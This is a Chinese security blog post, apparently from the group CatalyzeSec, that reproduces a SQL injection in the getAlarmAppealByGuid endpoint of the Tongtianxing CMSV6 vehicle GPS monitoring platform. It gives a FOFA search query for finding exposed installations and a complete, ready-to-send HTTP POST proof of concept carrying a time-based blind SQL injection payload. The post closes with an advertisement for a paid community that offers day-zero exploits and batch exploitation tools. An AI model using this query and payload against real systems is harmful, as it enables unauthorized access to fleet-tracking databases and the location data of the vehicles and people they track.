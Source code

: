 #  通天星CMSV6车载定位监控平台 getAlarmAppealByGuid SQL注入漏洞复现及POC   
原创 CatalyzeSec  CatalyzeSec   2024-09-10 19:34  
  
FOFA  
```
body="/808gps/" && icon_hash="1784259556"
```  
  
漏洞复现  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/EqMwaEZz0ylWhnOEubel0FrYOZXBJYeNibkN6Rxiau5VNicOyrpNs42feb358d9y4Bk5V6kpXCQvDxbEI0Dz1Hd9g/640?wx_fmt=other&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/EqMwaEZz0ylWhnOEubel0FrYOZXBJYeN3cGicIYbSpKFtSZQ9ramWbXvdBAuBfPm0XwbFEVU6rKorbvFsibpzuibw/640?wx_fmt=other&from=appmsg "")  
  
POC  
```
POST /alarm_appeal/getAlarmAppealByGuid;downloadLogger.action HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded
Content-Length: 71

guid=1') AND (SELECT 3904 FROM (SELECT(SLEEP(5)))PITq) AND ('qhqF'='qhqF
```  
  
nuclei运行结果  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/EqMwaEZz0ylWhnOEubel0FrYOZXBJYeNLoEn4bHNnbEW1yuEHr2sKoN4lDl20XT0HuDodFO1qWnTv314cprKfA/640?wx_fmt=other&from=appmsg "")  
  
nuclei-poc已上传到知识星球  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/EqMwaEZz0ylWhnOEubel0FrYOZXBJYeNTHSbTeZ1U00Ua6zTrEgEialpyMGufy1SlxU2XeZoyTNWL0vU2Z0OpOA/640?wx_fmt=other&from=appmsg "")  
  
高质量安全知识星球社区，致力于漏洞挖掘，渗透技巧，安全资料，星球承诺会持续更新0/1/NDay及对应的批量利用工具，团队内部漏洞库，内外网攻防技巧，你所需要的各类安全工具和资料以及团队师傅们最新的学习研究成果。分享行业内最新动态，解答交流各类技术问题。  
涉及方向包括Web渗透、免杀绕过、红蓝攻防、代码审计、应急响应、安全培训、CTF、小白入门、职业规划和疑难解答。**CatalyzeSec**  
，安全技术水平的催化者，星球针对成员的技术问题，快速提供思考方向及解决方案，并为星友提供多种方向的学习资料、安全工具、POC&EXP以及各种学习笔记等，以引导者和催化剂的方式助力安全技术水平的提升。  
我们是一个快速成长的team，团队的发展方向与每一位星友的学习方向密切相关，加入我们，一起成为更好的自己！  
PS：随着星球内知识的积累，人员的增加，  
星球价格也会随之增加，前一百位加入我们的师傅可享受99元朋友价！  
  
**团队内部独家知识库**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/EqMwaEZz0ylWhnOEubel0FrYOZXBJYeNGGJhK6ia0QWX5ibRUZOvcVMlMLwBgIDb0drK4qaLBVlrW71E5TQcrHPg/640?wx_fmt=other&from=appmsg "")  
  
